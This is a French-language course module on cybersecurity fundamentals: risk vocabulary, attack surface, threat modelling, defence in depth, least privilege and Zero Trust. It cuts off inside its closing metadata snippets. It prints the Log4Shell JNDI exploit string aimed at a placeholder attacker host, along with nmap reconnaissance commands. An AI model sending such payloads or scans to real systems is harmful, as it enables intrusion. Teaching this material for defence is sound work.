


# Fondamentaux de la cybersécurité et du système d'information

## Objectifs pédagogiques

À la fin de ce module, vous saurez :

- **Distinguer** cybersécurité, sécurité informatique et sécurité des systèmes d'information, et choisir le bon périmètre pour cadrer une mission.
- **Identifier** les actifs d'un système d'information et les relier aux processus métier qui en dépendent.
- **Décomposer** un scénario d'attaque en menace, vulnérabilité, exploitation, impact et risque, puis expliquer pourquoi deux organisations exposées à la même CVE ne portent pas le même risque.
- **Classer** des mesures en préventives, détectives ou correctives, et évaluer si une défense en profondeur est réelle ou seulement empilée.
- **Appliquer** le moindre privilège et vérifier concrètement qu'il tient (ports en écoute, rôles de base de données, comptes à privilèges).

## Mise en situation

*Scénario illustratif : les chiffres et les noms sont fictifs, mais l'enchaînement correspond à des intrusions très documentées.*

Une PME de distribution de 220 personnes a un pare-feu, un antivirus sur tous les postes et des sauvegardes quotidiennes. Le réseau a été segmenté avec soin : serveurs d'un côté, postes de l'autre, une DMZ pour le web.

Un jeudi, une assistante comptable reçoit un faux message de « portail fournisseur ». Elle saisit ses identifiants. L'attaquant les rejoue le soir même sur le VPN, qui n'exige qu'un mot de passe.

Le compte comptable n'a pas de privilèges particuliers, mais il atteint un partage de fichiers où traîne un script de sauvegarde. Ce script contient les identifiants du compte de service de l'outil de backup, et ce compte est administrateur du domaine.

Samedi, à 3 h du matin, l'attaquant chiffre les serveurs. Il supprime d'abord les sauvegardes, car le compte de service y avait accès en écriture.

Chaque brique « de sécurité » existait, et aucune n'a servi :

- **Le pare-feu** n'a rien bloqué, parce que l'attaquant est entré par une porte légitime avec un identifiant valide.
- **L'antivirus** n'a rien vu tant que l'attaquant n'a utilisé que des outils d'administration normaux.
- **Les sauvegardes** étaient bien faites, mais elles se trouvaient dans le même domaine de confiance que ce qu'elles devaient protéger.

Ce module donne le vocabulaire et le raisonnement pour analyser ce type d'incident avant qu'il arrive : quoi protéger, contre qui, par quels chemins, et avec quelles mesures qui ne tombent pas toutes en même temps.

## Cybersécurité, sécurité informatique, sécurité des systèmes d'information

Les trois termes circulent comme des synonymes, mais ils ne cadrent pas le même travail. Les définitions ci-dessous sont des définitions de travail : les usages varient selon les organisations et les textes.

| Terme | Ce qu'il couvre en pratique | Exemple de question traitée |
|-------|----------------------------|-----------------------------|
| Sécurité informatique | Les composants techniques : machines, logiciels, réseaux, configurations | Ce serveur est-il à jour et durci ? |
| Sécurité des systèmes d'information | Le système d'information entier : technique, mais aussi données, procédures, rôles, prestataires, supports papier | Qui peut valider un virement, et comment le prouve-t-on ? |
| Cybersécurité | La protection de ce qui dépend du numérique et des interconnexions, y compris l'angle menace : attaquants, cybercriminalité, défense | Qui nous cible, par quels chemins, avec quelle résilience ? |

> 🧠 **Concept clé** : un système d'information est l'ensemble des ressources (matériel, logiciels, données, personnes, procédures) qui permettent à une organisation de collecter, traiter, stocker et diffuser de l'information. Un attaquant n'a pas à respecter cette frontière : il passe par le maillon le plus faible, qu'il soit technique, humain ou organisationnel.
{: .callout .callout-important}

Les objectifs de sécurité se décrivent par trois propriétés, souvent appelées CIA (Confidentiality, Integrity, Availability), auxquelles on ajoute fréquemment la traçabilité (pouvoir prouver qui a fait quoi) :

- **Confidentialité** : seules les personnes autorisées accèdent à l'information.
- **Intégrité** : l'information n'est pas modifiée sans autorisation, et on peut le vérifier.
- **Disponibilité** : le service ou la donnée est accessible quand le métier en a besoin.

> 🔑 **Moyen mnémotechnique** : en français, on retient ces propriétés sous l'acronyme **DIC** (Disponibilité, Intégrité, Confidentialité), ou **DICT** lorsqu'on y ajoute la Traçabilité. C'est l'équivalent du CIA anglais.
{: .callout .callout-memo}

Un rançongiciel moderne attaque en général deux propriétés à la fois. Il rend les données indisponibles en les chiffrant, et il en exfiltre une copie pour menacer de les publier, ce qui touche la confidentialité. Raisonner uniquement en « confidentialité », comme beaucoup de débutants, conduit à sous-estimer la disponibilité, qui est souvent ce qui coûte le plus cher à l'entreprise.

## Actifs, données, utilisateurs, services et processus métier

On ne protège pas « le réseau », on protège ce dont le métier ne peut pas se passer. On distingue deux niveaux :

- Les **actifs primaires** : processus métier et informations (facturation, paie, dossiers clients, propriété intellectuelle).
- Les **actifs de support** : ce qui les fait fonctionner (serveurs, bases de données, comptes, VPN, postes, prestataires, personnes détentrices d'un savoir).

| Processus métier | Actifs de support, souvent oubliés en gras | Impact si indisponible ou altéré |
|------------------|-------------------------------------------|----------------------------------|
| Facturation | ERP, base de données, **compte de service du batch de nuit**, **imprimante réseau de la compta** | Pas de facture, donc pas de trésorerie à court terme |
| Paie | Application RH, **prestataire de paie (flux SFTP)**, poste de la gestionnaire | Retard de salaires, données personnelles exposées |
| Production | Automates, supervision, **accès de télémaintenance du constructeur** | Arrêt de ligne |

Les éléments en gras sont ceux qu'un inventaire « serveurs et postes » oublie. Or ce sont souvent eux que l'attaquant utilise. Dans la mise en situation, l'actif décisif était un script oublié dans un partage.

> 💡 **Astuce** : partez toujours d'un processus métier et remontez la chaîne de dépendances (« qu'est-ce qui doit marcher pour que la facturation tourne ? »). Un tableur à quatre colonnes (processus, actif, propriétaire, sensibilité) suffit pour commencer. Un outil d'inventaire n'apporte rien si personne n'a décidé de ce qui compte.
{: .callout .callout-astuce}

## Surface d'attaque

> 📖 **Définition.** La surface d'attaque est l'ensemble des points par lesquels un attaquant peut interagir avec le système. Elle dépasse les ports ouverts : identifiants, dépendances, prestataires et utilisateurs en font partie.
{: .callout .callout-definition}

| Vecteur | Exposition typique | Impact potentiel |
|---------|-------------------|------------------|
| Services exposés sur Internet (VPN, webmail, applications web) | Découverts en quelques minutes par scan de masse (Shodan, Censys, nmap) | Exécution de code à distance, accès initial |
| Identifiants des utilisateurs | Hameçonnage, réutilisation de mots de passe, fuites antérieures (credential stuffing) | Accès légitime en apparence, difficile à distinguer d'un usage normal |
| Dépendances logicielles | Bibliothèques embarquées (Log4j, Struts), images de conteneurs | Vulnérabilité héritée, parfois sans que l'équipe sache qu'elle utilise le composant |
| Comptes de service et secrets | Scripts, dépôts de code, partages de fichiers | Élévation de privilèges, déplacement latéral |
| Prestataires et accès tiers | Télémaintenance, VPN fournisseur, intégrations | Contournement de votre périmètre via un maillon que vous ne contrôlez pas |
| Utilisateurs eux-mêmes | Pièces jointes, faux support, demandes de virement | Fraude, installation de logiciel malveillant |

> 🔴 **Vecteur d'attaque** : côté attaquant, la reconnaissance est peu coûteuse. Un `nmap -sV --top-ports 1000 <HOST>` donne les services visibles et leurs versions. Un moteur comme Shodan donne la même chose sans envoyer un paquet à la cible. Si votre inventaire est moins complet que celui d'un attaquant, vous avez déjà un retard.
{: .callout .callout-danger}

## Mécanisme d'attaque : de la menace au risque

### Le vocabulaire qui structure toute analyse

Cinq mots sont souvent confondus. Les distinguer est la base de tout rapport d'audit défendable.



- **Menace** : un acteur ou un événement capable de causer un dommage (affilié de rançongiciel, employé mécontent, scanner automatisé).
- **Vulnérabilité** : une faiblesse (bogue, mauvaise configuration, procédure absente).
- **Exploitation** : l'action qui transforme la faiblesse en incident.
- **Impact** : la conséquence sur l'actif et donc sur le métier.
- **Risque** : la combinaison de la vraisemblance de l'exploitation et de la gravité de l'impact, dans un contexte donné.

> 🧠 **Concept clé** : une vulnérabilité n'est pas un risque. Le risque n'existe que si une menace crédible peut l'atteindre et que l'actif concerné compte.
{: .callout .callout-important}

### Exemple : Log4Shell, même CVE, risques différents

> 📖 **Définition.** Une CVE (Common Vulnerabilities and Exposures) est l'identifiant public d'une vulnérabilité connue. Le score CVSS (Common Vulnerability Scoring System) en mesure la gravité intrinsèque, sur une échelle de 0 à 10.
{: .callout .callout-definition}

La CVE-2021-44228, dite Log4Shell, touche la bibliothèque de journalisation Java Log4j 2. Elle a reçu un score CVSS de 10.0, le maximum.

Le mécanisme est simple. Log4j interprète certaines expressions dans les messages qu'il journalise. Un attaquant envoie une chaîne comme celle-ci dans un champ que l'application journalise (en-tête `User-Agent`, nom d'utilisateur, champ de formulaire) :

```
${jndi:ldap://<ATTACKER_HOST>/a}
```

Log4j tente alors de résoudre cette expression, contacte le serveur de l'attaquant et peut charger du code distant. Des scanners automatisés ont envoyé ce type de chaîne à très grande échelle dans les jours qui ont suivi la publication, en décembre 2021.

Le risque n'était pourtant pas identique partout :

| Organisation | Exposition | Filtrage sortant | Risque réel |
|--------------|-----------|------------------|-------------|
| A : application Java sur Internet, Log4j vulnérable | Directe | Aucun, le serveur peut joindre n'importe quelle destination | Très élevé : exploitation triviale |
| B : même application, accessible uniquement depuis un VPN | Indirecte | Aucun | Moyen : il faut d'abord un accès interne |
| C : même application, Internet, mais sortie vers Internet bloquée | Directe | Le serveur ne peut pas atteindre l'hôte de l'attaquant | Plus faible pour cette voie d'exploitation, sans être nul |

Le score CVSS est identique pour les trois, alors que la priorité de correction ne l'est pas. Le score mesure la gravité intrinsèque de la faille, pas votre risque.

> 💡 **Astuce** : pour prioriser une CVE, posez trois questions avant de regarder le score : le composant est-il joignable depuis une source non fiable ? Existe-t-il un exploit public ? L'actif concerné porte-t-il un processus critique ?
{: .callout .callout-astuce}

### Le chemin d'un attaquant réel

Les attaquants suivent rarement un « coup de génie » unique. Ils enchaînent des étapes banales, que la matrice MITRE ATT&CK (Adversarial Tactics, Techniques, and Common Knowledge) décrit sous forme de tactiques : reconnaissance, accès initial, persistance, élévation de privilèges, mouvement latéral, exfiltration, impact.

Reprenons le scénario d'ouverture :

1. **Accès initial** : hameçonnage pour récupérer un mot de passe. Des kits comme Evilginx agissent en proxy entre la victime et le vrai portail, et volent aussi le cookie de session, ce qui contourne certains seconds facteurs.
2. **Exploration** : listing des partages accessibles au compte volé. Les scripts et fichiers de configuration sont lus en premier, car ils contiennent souvent des secrets.
3. **Élévation de privilèges** : le compte de service trouvé dans le script est administrateur du domaine.
4. **Déplacement latéral et préparation** : outils d'administration légitimes (PsExec, accès à distance), parfois extraction de mots de passe en mémoire avec Mimikatz. Les sauvegardes sont repérées et supprimées.
5. **Impact** : déploiement du chiffrement à l'heure où personne ne regarde.

Aucune de ces étapes n'exige un exploit sophistiqué. L'attaquant profite d'une accumulation de petits écarts : pas de second facteur, un secret en clair, un compte surdimensionné.

## Modèle de menace

Modéliser la menace consiste à répondre à quatre questions : que protège-t-on, contre qui, par quels chemins, et que fait-on pour chaque chemin ?

### Les acteurs, par ordre de vraisemblance pour une PME

| Acteur | Motivation | Vecteur probable | Ce qu'il vise |
|--------|-----------|------------------|---------------|
| Cybercriminel opportuniste | Gain financier rapide | Scan de masse, vulnérabilités publiées, mots de passe réutilisés | Tout ce qui est exposé et vulnérable |
| Affilié de rançongiciel | Extorsion | Hameçonnage, VPN sans second facteur, accès achetés à des revendeurs | Données et disponibilité |
| Prestataire compromis | Aucune, victime collatérale | Accès de télémaintenance ou intégration | Votre réseau via le sien |
| Initié (malveillant ou négligent) | Variable | Droits légitimes trop larges | Données sensibles, fraude |
| Acteur étatique | Espionnage, sabotage | Chaînes d'approvisionnement, vulnérabilités inédites | Cibles stratégiques, plus rare pour une PME |

La plupart des organisations n'ont pas à se préparer en priorité contre un service de renseignement. Elles ont à se préparer contre les deux premières lignes du tableau.

### STRIDE appliqué à un portail client

STRIDE* est un moyen mnémotechnique pour parcourir les menaces d'un composant.

| Lettre | Menace | Exemple sur un portail client |
|--------|--------|-------------------------------|
| S | Usurpation d'identité (Spoofing) | Réutilisation de mots de passe fuités |
| T | Altération (Tampering) | Modification du montant d'une commande côté client |
| R | Répudiation | L'utilisateur nie avoir passé la commande, et les journaux ne permettent pas de trancher |
| I | Divulgation d'information | Un client accède aux factures d'un autre en changeant un identifiant dans l'URL |
| D | Déni de service | Saturation de la page de connexion |
| E | Élévation de privilèges | Un compte standard obtient un rôle administrateur via une route mal protégée |

*STRIDE (Spoofing, Tampering, Repudiation, Information disclosure, Denial of service, Elevation of privilege) est une grille de questions utilisée en conception pour ne pas oublier de familles de menaces.

## Sécurité préventive, détective et corrective

Une mesure de sécurité a un rôle précis dans le temps de l'incident : avant, pendant, après.

| Type | Objectif | Exemples | Limite à connaître |
|------|----------|----------|--------------------|
| Préventive | Empêcher l'événement | Second facteur, filtrage, correctifs, moindre privilège | Contournable : il faut supposer qu'elle finira par échouer |
| Détective | Voir l'événement quand il se produit | Journaux centralisés, alertes, SIEM (Security Information and Event Management) | Inutile si personne ne traite les alertes ou si les journaux ne sont pas conservés |
| Corrective | Limiter les dégâts et revenir à la normale | Sauvegardes testées, plan de reprise, isolement de postes | Dépend de l'avoir préparé et exercé avant |

Les organisations investissent en général beaucoup dans le préventif, un peu dans le correctif, et très peu dans le détectif. Un SIEM qui collecte des journaux sans règle ni astreinte n'est pas un contrôle de détection : c'est un coût de stockage.

> 🔒 **Contrôle de sécurité** : pour chaque mesure préventive importante, demandez-vous ce qui la remplace quand elle échoue. Si la réponse est « rien », il manque une mesure détective ou corrective. Dans le scénario d'ouverture, la détection d'un compte comptable se connectant à 22 h depuis une adresse inhabituelle aurait donné un jour d'avance.
{: .callout .callout-securite}

## Défense en profondeur et moindre privilège

### Défense en profondeur

Le principe : empiler des contrôles indépendants pour que l'échec d'un seul ne suffise pas à l'attaquant.

> 🏰 **Analogie : le château fort.** Douves, rempart, donjon : l'assaillant doit franchir chaque obstacle. Mais si toutes les portes s'ouvrent avec la même clé, le château n'a en réalité qu'une seule protection. Limite : un système d'information a de nombreuses entrées, et un attaquant peut arriver directement à l'intérieur, par exemple avec un identifiant valide.
{: .callout .callout-analogie}



> ⚠️ **Erreur fréquente** : confondre empilement et profondeur. Deux contrôles qui partagent la même faiblesse ne s'additionnent pas. Un VPN et une application qui s'appuient tous deux sur le même annuaire sans second facteur tombent avec un seul mot de passe volé. Une sauvegarde sur un partage accessible par le compte administrateur du domaine tombe avec le domaine.
{: .callout .callout-attention}

Le critère à vérifier est l'**indépendance** : qu'est-ce qui doit être compromis pour contourner chaque couche, et est-ce la même chose ?

Cette approche a un coût. Chaque couche ajoute de la complexité, du temps d'exploitation et parfois de la friction pour les utilisateurs. La question utile n'est pas « combien de couches ? » mais « quelles couches arrêtent les chemins les plus probables, à un coût supportable ? ».

### Moindre privilège

Le principe : chaque compte, service ou processus dispose uniquement des droits nécessaires à sa tâche, pour la durée nécessaire. Il limite le rayon d'action d'un compte compromis, quelle que soit la façon dont il l'a été.

Exemple concret avec une base PostgreSQL utilisée par une application de commandes. Avant, le compte applicatif dispose de l'attribut superutilisateur :

```sql
-- Avant : l'application se connecte avec un rôle très large
ALTER ROLE app_orders SUPERUSER;
```

Si l'application souffre d'une injection SQL, l'attaquant hérite de ces droits et peut lire toute la base ou exécuter des commandes côté serveur. Après :

```sql
-- Après : droits limités à ce que fait réellement l'application
ALTER ROLE app_orders NOSUPERUSER NOCREATEDB NOCREATEROLE;
REVOKE ALL ON ALL TABLES IN SCHEMA public FROM app_orders;
GRANT SELECT, INSERT, UPDATE ON orders, order_lines TO app_orders;
GRANT SELECT ON customers TO app_orders;
```

La même vulnérabilité d'application a désormais un impact borné : l'attaquant lit et modifie les commandes, mais ne peut pas exécuter de code sur le serveur de base de données.

Il ne peut pas non plus supprimer des tables, à condition qu'elles appartiennent à un autre rôle que app_orders : dans PostgreSQL, le propriétaire d'une table garde toujours le droit de la supprimer, quel que soit le REVOKE.

Le moindre privilège se heurte à la dérive : les droits s'accumulent (arrivée sur un projet, dépannage « temporaire »), et personne ne les retire. Il suppose donc des revues périodiques de droits, pas seulement une bonne configuration initiale.

## Security by Design et Zero Trust

### Security by Design

L'idée : traiter la sécurité pendant la conception plutôt que de l'ajouter après coup. Dans une revue de conception, quatre questions suffisent souvent à faire apparaître les problèmes structurels :

- Quelles données sensibles circulent, et où sont-elles stockées en clair ?
- Qui peut appeler cette fonction, et comment le système le vérifie-t-il, pour chaque objet et pas seulement à la connexion ?
- Que se passe-t-il si ce composant est compromis : jusqu'où l'attaquant va-t-il ?
- Les valeurs par défaut sont-elles sûres (compte non administrateur, port fermé, chiffrement activé) ?

Corriger un défaut de conception après la mise en production coûte presque toujours plus cher que de le traiter en revue de conception. Le coût réel dépend du contexte, et les chiffres circulant sur ce sujet sont rarement fiables. L'argument de fond est que certaines erreurs, comme l'absence de contrôle d'accès par objet ou un modèle de droits trop grossier, sont structurelles et obligent à refaire des parties du système.

### Zero Trust : les principes

Zero Trust désigne une approche, pas un produit. Le document de référence est le NIST SP 800-207. Ses idées clés :

- **Ne pas accorder de confiance implicite** parce qu'une requête vient du réseau interne ou du VPN.
- **Vérifier explicitement** chaque accès : identité, état du poste, contexte, sensibilité de la ressource.
- **Accorder le moindre privilège** et pour la durée nécessaire.
- **Supposer la compromission** : concevoir comme si un attaquant était déjà dedans, donc limiter les mouvements et journaliser.

Un VPN classique donne, une fois authentifié, un accès réseau large : l'attaquant du scénario d'ouverture en profite, il se retrouve « dans le réseau » avec un seul mot de passe. Dans une logique Zero Trust, l'accès est décidé application par application, avec un second facteur et des vérifications sur le poste.

Les contraintes sont réelles : applications historiques qui supposent un réseau de confiance, coût de la mise en place d'un accès par application, friction pour les utilisateurs. Une trajectoire réaliste commence par des étapes peu spectaculaires :

1. Un second facteur partout où l'on s'authentifie, en commençant par les accès distants et les comptes à privilèges.
2. Une séparation des comptes d'administration et des comptes de bureautique.
3. Un inventaire des actifs et des flux qui permet de décider quoi isoler.

> ⚠️ **Erreur fréquente** : acheter une solution « Zero Trust » sans avoir fait l'inventaire ni nettoyé les droits. Le produit applique des règles ; sans inventaire, il n'a pas de bonnes règles à appliquer.
{: .callout .callout-attention}

## Responsabilité individuelle, organisationnelle et réglementaire

La sécurité engage des responsabilités à trois niveaux.

| Niveau | Ce que cela implique concrètement |
|--------|-----------------------------------|
| Individuelle | Respect de la charte, usage correct des moyens d'authentification, signalement rapide d'un message suspect ou d'un incident. Une personne qui signale rapidement vaut mieux qu'une personne qui craint la sanction. |
| Organisationnelle | La direction fixe l'appétit pour le risque, alloue les moyens et désigne les responsables. Le RSSI conseille et pilote, mais la décision d'accepter un risque appartient aux dirigeants. |
| Réglementaire | Des textes imposent des obligations selon le secteur, la taille et le type de données traitées. |

Deux exemples côté réglementaire, à vérifier sur les textes en vigueur au moment de votre mission :

- Le RGPD (GDPR, General Data Protection Regulation) impose, en cas de violation de données personnelles susceptible d'engendrer un risque pour les personnes, une notification à l'autorité de contrôle dans un délai de 72 heures après en avoir pris connaissance (article 33). Cela suppose de savoir détecter et qualifier un incident, ce qui renvoie à la sécurité détective.
- La directive européenne NIS2 (Network and Information Security 2, directive (UE) 2022/2555) renforce les obligations de gestion des risques et de notification pour de nombreuses entités. Il faut distinguer la directive, sa transposition en droit national et les obligations qui s'appliquent réellement à une organisation donnée. L'état de la transposition en France évolue : à vérifier à la date de lecture plutôt qu'à tenir pour acquis.

> 🧠 **Concept clé** : la conformité n'est pas la sécurité. Un système conforme peut rester vulnérable, et un système bien protégé peut manquer de documentation. Un auditeur doit pouvoir expliquer l'écart entre les deux.
{: .callout .callout-important}

## Ce que vous pouvez tester dès la fin du module

Toutes ces commandes s'exécutent uniquement sur un périmètre qui vous appartient ou pour lequel vous avez une autorisation écrite. Dans un laboratoire, c'est immédiat.

- **Ce qui écoute sur une machine Linux** : `ss -tlnp` liste les ports TCP en écoute et le processus associé. Chaque ligne que vous ne savez pas expliquer est une question à poser.
- **Ce qu'un attaquant voit de l'extérieur** : `nmap -sV --top-ports 1000 -oN <FICHIER> <HOST>`. Comparez la sortie à votre inventaire : tout écart est soit un oubli d'inventaire, soit une exposition à corriger.
- **Qui peut tout faire** : `getent group sudo` sous Linux (`getent group wheel` sur la famille RHEL), `net localgroup Administrators` sous Windows (`net localgroup Administrateurs` sur un Windows en français). La liste est-elle courte, justifiée, et contient-elle des comptes de service ?
- **Quels rôles de base sont trop larges** : `psql -h <HOST> -U <ADMIN_USER> -c "\du"` liste les rôles et leurs attributs. Cherchez `Superuser` sur un compte applicatif.
- **Si la reprise fonctionne vraiment** : restaurez une sauvegarde dans un environnement isolé et chronométrez. Une sauvegarde jamais restaurée est une hypothèse, pas un contrôle.

## Cas en entreprise : arbitrer avec un budget contraint

*Scénario illustratif, montants fictifs. Reprenons la PME de la mise en situation, après l'incident.*

La direction accorde une enveloppe de 30 000 € et trois mois. Plusieurs projets sont proposés :

| Option | Coût estimé | Chemin d'attaque traité | Délai |
|--------|------------|-------------------------|-------|
| Second facteur sur VPN et messagerie | Faible (licence + accompagnement) | Réutilisation d'un mot de passe volé | 3 à 4 semaines |
| Retrait des droits administrateur du compte de service de sauvegarde, secrets déplacés dans un coffre | Faible, surtout du temps | Élévation de privilèges et suppression des sauvegardes | 2 à 3 semaines |
| Copie des sauvegardes hors domaine, avec une copie non modifiable | Moyen | Perte irrécupérable de données | 4 à 6 semaines |
| Règles d'alerte sur connexions hors horaires et créations massives de fichiers | Faible à moyen | Absence de détection | 3 semaines, puis un réglage continu |
| Achat d'un EDR sur tous les postes | Élevé | Exécution de logiciels malveillants | 2 à 3 mois |

La décision défendable ne suit pas la mode du moment : elle suit les chemins de l'attaque réelle. Les trois premières options, de coût faible à moyen, couvrent l'accès initial, l'élévation de privilèges et la reprise. L'alerte ajoute la détection. Le déploiement d'un EDR (Endpoint Detection and Response) est utile, mais il vient après, car il ne répond pas au mode d'entrée utilisé (identifiants valides) et immobilise une grande partie du budget.

La leçon dépasse ce scénario : on commence par rendre le chemin le plus probable plus coûteux, et on s'assure de pouvoir reprendre l'activité. On évite de traiter d'abord ce qui est le plus visible.

## Erreurs fréquentes

⚠️ **Compte de service avec des droits d'administrateur de domaine**

- *Configuration dangereuse* : un outil de sauvegarde, de supervision ou d'inventaire tourne avec un compte administrateur « pour que ça marche ».
- *Conséquence* : la compromission du script, du serveur ou du partage où se trouve le secret donne tout le domaine.
- *Correction* : définir les droits strictement nécessaires, stocker le secret dans un coffre plutôt que dans un script, auditer régulièrement les membres des groupes privilégiés (voir la section sur ce que vous pouvez tester).

⚠️ **Sauvegardes dans le même domaine de confiance que la production**

- *Configuration dangereuse* : les serveurs de sauvegarde sont joints au domaine et accessibles en écriture avec les mêmes comptes.
- *Conséquence* : un attaquant qui obtient des privilèges élevés supprime aussi les sauvegardes avant de chiffrer.
- *Correction* : une copie hors domaine ou non modifiable, avec des identifiants distincts, et un test de restauration planifié.

⚠️ **Accès distant protégé par un seul mot de passe**

- *Configuration dangereuse* : VPN, webmail ou portail d'administration accessibles depuis Internet avec identifiant et mot de passe seulement.
- *Conséquence* : un hameçonnage ou une fuite de mots de passe suffit pour entrer.
- *Correction* : second facteur obligatoire. Pour les administrateurs, préférer une clé de sécurité (FIDO2) à un code par SMS ou à une application de codes, car ces derniers peuvent être interceptés par un proxy d'hameçonnage de type Evilginx.

⚠️ **Priorisation par le seul score CVSS**

- *Configuration dangereuse* : le tableau de correctifs est trié par score décroissant, sans tenir compte de l'exposition.
- *Conséquence* : une CVE de score 9,8 sur un serveur isolé est traitée avant une CVE de score 7 sur un service exposé avec un exploit public.
- *Correction* : prioriser selon l'exposition, la disponibilité d'un exploit et la criticité de l'actif (voir l'exemple Log4Shell).

⚠️ **« On est derrière un pare-feu »**

- *Configuration dangereuse* : on suppose que tout ce qui est à l'intérieur est de confiance.
- *Conséquence* : dès qu'un compte ou un poste est compromis, l'attaquant circule librement.
- *Correction* : traiter l'intérieur comme un réseau non fiable pour les actifs importants (journalisation, droits minimaux, accès contrôlé), ce qui rejoint les principes Zero Trust.

## Résumé

La cybersécurité protège les actifs qui portent les processus métier, et pas seulement les machines et les réseaux. Le raisonnement de base distingue menace, vulnérabilité, exploitation, impact et risque : une même CVE n'a pas le même risque selon l'exposition et le contexte, comme le montre Log4Shell.

Les défenses se classent en préventives, détectives et correctives, et un dispositif sain contient les trois. La défense en profondeur n'a de valeur que si les couches sont indépendantes. Le moindre privilège borne l'impact d'une compromission, à condition de contrôler la dérive des droits.

Security by Design et Zero Trust sont des principes de conception qui se traduisent d'abord par des gestes simples : second facteur, séparation des comptes, inventaire. Les responsabilités se répartissent entre individus, organisation et réglementation, et ce dernier volet évolue : il faut vérifier les textes en vigueur. Il reste à surveiller la dérive des droits, les secrets oubliés dans les scripts, et la capacité réelle à restaurer.

<!-- snippet
id: cyber_risque_chaine_decomposition
type: concept
tech: cybersecurite
level: intermediate
importance: high
format: knowledge
tags: risque,menace,vulnerabilite,analyse
title: Menace, vulnérabilité, exploitation, impact, risque
content: Le risque combine vraisemblance et impact : il n'existe que si une menace crédible peut exploiter une vulnérabilité sur un actif qui compte. Exemple : une CVE critique sur un serveur isolé sans donnée sensible a un risque faible, alors qu'une faille moyenne sur un portail exposé qui traite la facturation peut avoir un risque élevé.
description: Une vulnérabilité n'est pas un risque : il faut une menace joignable et un actif qui compte pour parler de risque réel.
-->

<!-- snippet
id: cyber_cvss_priorisation_contexte
type: tip
tech: cybersecurite
level: intermediate
importance: high
format: knowledge
tags: cvss,cve,priorisation,correctifs
title: Prioriser une CVE au-delà du score CVSS
content: Pour chaque CVE, poser trois questions avant de regarder le score : le composant est-il joignable depuis une source non fiable (Internet, prestataire) ? Existe-t-il un exploit public ? L'actif porte-t-il un processus critique ? Une CVE de score 7 exposée avec exploit public passe avant une CVE de score 9,8 sur un serveur isolé.
description: Le score CVSS mesure la gravité de la faille, pas votre risque. L'exposition et l'existence d'un exploit public changent l'ordre de correction.
-->

<!-- snippet
id: cyber_cia_ransomware_double_atteinte
type: concept
tech: cybersecurite
level: intermediate
importance: medium
format: knowledge
tags: cia,disponibilite,confidentialite,rancongiciel
title: CIA : un rançongiciel touche deux propriétés à la fois
content: Un rançongiciel moderne chiffre les données (atteinte à la disponibilité) et en exfiltre une copie pour menacer de la publier (atteinte à la confidentialité). Se limiter à la confidentialité conduit à sous-estimer la disponibilité, souvent la propriété la plus coûteuse pour le métier.
description: Les trois propriétés CIA ne sont pas indépendantes dans un incident : un seul rançongiciel attaque disponibilité et confidentialité simultanément.
-->

<!-- snippet
id: cyber_controles_prevention_detection_correction
type: concept
tech: cybersecurite
level: intermediate
importance: high
format: knowledge
tags: prevention,detection,correction,controles
title: Contrôles préventifs, détectifs et correctifs
content: Préventif : empêche (second facteur, correctifs, filtrage), mais finit par être contourné. Détectif : voit l'événement (journaux, alertes), inutile sans quelqu'un pour traiter les alertes. Correctif : limite les dégâts (sauvegardes restaurées en test, plan de reprise). Pour chaque mesure préventive clé, définir ce qui prend le relais quand elle échoue.
description: Un dispositif sain combine les trois types. Un SIEM sans règle ni astreinte n'est pas un contrôle de détection, juste un coût de stockage.
-->

<!-- snippet
id: cyber_defense_profondeur_independance
type: concept
tech: cybersecurite
level: intermediate
importance: high
format: knowledge
tags: defense-en-profondeur,architecture,segmentation
title: Défense en profondeur : le critère d'indépendance
content: Des couches de défense ne s'additionnent que si leur contournement exige des compromissions différentes. Un VPN et une application qui s'authentifient tous deux sur le même annuaire sans second facteur tombent avec un seul mot de passe volé. Pour chaque couche, écrire ce qui doit être compromis pour la franchir, puis vérifier que ce n'est pas la même chose.
description: Empiler des contrôles qui partagent la même faiblesse (annuaire, compte, domaine) ne crée pas de profondeur réelle.
-->

<!-- snippet
id: cyber_moindre_privilege_postgres_grant
type: command
tech: cybersecurite
level: intermediate
importance: high
format: knowledge
tags: moindre-privilege,postgresql,sql,base-de-donnees
title: Réduire les droits d'un rôle applicatif PostgreSQL
context: À exécuter avec un rôle administrateur de la base, après avoir identifié les tables réellement utilisées par l'application
command: ALTER ROLE <APP_USER> NOSUPERUSER NOCREATEDB NOCREATEROLE; REVOKE ALL ON ALL TABLES IN SCHEMA public FROM <APP_USER>; GRANT SELECT, INSERT, UPDATE ON <TABLE> TO <APP_USER>;
example: ALTER ROLE app_orders NOSUPERUSER NOCREATEDB NOCREATEROLE; REVOKE ALL ON ALL TABLES IN SCHEMA public FROM app_orders; GRANT SELECT, INSERT, UPDATE ON orders TO app_orders;
description: Borne l'impact d'une injection SQL : l'attaquant ne peut plus créer de rôles et reste limité aux tables autorisées. Il ne peut plus supprimer de tables que si celles-ci appartiennent à un autre rôle, car le propriétaire garde toujours le droit DROP.
-->

<!-- snippet
id: cyber_inventaire_ports_ss
type: command
tech: cybersecurite
level: intermediate
importance: medium
format: knowledge
tags: inventaire,ports,linux,surface-attaque
title: Lister les services en écoute sur une machine Linux
context: Sur le serveur à auditer, idéalement avec les droits root pour voir tous les processus
command: ss -tlnp
description: Affiche chaque port TCP en écoute avec son processus. Toute ligne non justifiée est une question d'inventaire ou une exposition à fermer.
-->

<!-- snippet
id: cyber_nmap_surface_externe
type: command
